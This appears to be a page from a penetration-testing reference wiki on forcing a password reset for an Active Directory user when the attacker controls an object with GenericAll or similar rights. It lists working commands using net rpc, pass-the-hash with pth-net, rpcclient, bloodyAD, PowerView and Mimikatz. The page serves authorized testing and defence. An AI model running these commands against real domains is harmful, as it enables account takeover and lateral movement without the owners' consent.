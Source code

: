 This abuse can be carried out when controlling an object that has a `GenericAll`, `AllExtendedRights` or `User-Force-Change-Password` over the target user.
=== "UNIX-like"
    It can also be achieved from UNIX-like system with [net](https://linux.die.net/man/8/net), a tool for the administration of samba and cifs/smb clients. The [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) can also be used to run net commands with pass-the-hash.
    ```bash
    # With net and cleartext credentials (will be prompted)
    net rpc password "$TargetUser" -U "$DOMAIN"/"$USER" -S "$DC_HOST"

    # With net and cleartext credentials
    net rpc password "$TargetUser" -U "$DOMAIN"/"$USER"%"$PASSWORD" -S "$DC_HOST"

    # With Pass-the-Hash
    pth-net rpc password "$TargetUser" -U "$DOMAIN"/"$USER"%"ffffffffffffffffffffffffffffffff":"$NT_HASH" -S "$DC_HOST"
    ```
    The [rpcclient](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) can also be used on UNIX-like systems when the package samba-common-bin is missing.
    ```bash
    rpcclient -U $DOMAIN/$ControlledUser $DomainController
    rpcclient $> setuserinfo2 $TargetUser 23 $NewPassword
    ```
    Alternatively we can use BloodyAD instead
    ```bash
    bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set password "$TargetUser" "$NewPassword"
    ```
=== "Windows"
    The attacker can change the password of the user. This can be achieved with Set-DomainUserPassword (PowerView module).
    ```bash
    $NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force Set-DomainUserPassword -Identity 'TargetUser' -AccountPassword $NewPassword
    ```
    Mimikatz's `lsadump::setntlm` can also be used for that purpose.